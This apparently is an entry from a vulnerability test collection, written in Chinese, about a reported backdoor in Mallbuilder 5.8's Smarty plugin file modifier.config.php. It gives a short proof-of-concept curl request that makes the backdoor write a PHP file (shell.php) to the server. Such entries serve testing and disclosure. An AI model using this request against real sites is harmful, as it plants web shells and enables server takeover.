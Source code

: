 ### modifier.config.php - smarty 框架后门

测试镜像

* src/mallbuilder/5.8/

参考链接

* [远丰集团旗下CMS疑有官方后门](http://www.freebuf.com/articles/web/164609.html)

Poc

```
# 请求
curl 'http://127.0.0.1/lib/smarty/plugins/modifier.config.php?codelock_filed=.&codelock_mastersize=3&codelock_act=3&codelock_enc=shell.php&codelock_masterdata=<?php+phpinfo();+?>'

# 生成
./lib/smarty/plugins/shell.php
```


